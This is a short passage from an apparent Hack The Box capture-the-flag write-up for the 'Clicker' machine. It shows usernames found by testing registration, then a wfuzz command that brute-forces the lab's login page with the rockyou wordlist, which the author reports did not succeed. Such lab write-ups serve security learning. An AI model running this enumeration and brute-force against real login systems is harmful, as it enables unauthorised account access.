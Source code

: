 ![Username](./images/info.png)

If try to register users with those names, we can find out that all of them exist.

With that information we can try to brute force a password:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/clicker]
└─$ cat usernames.txt 
ButtonLover99
Paol
Th3Br0
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/clicker]
└─$ wfuzz -c -z file,usernames.txt -z file,/home/kali/Desktop/tools/rockyou.txt --hs "Authentication Failed" --follow -u http://clicker.htb/authenticate.php -d "username=FUZZ&password=FUZ2Z"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

[...] 

```
But I couldn't find any logins.
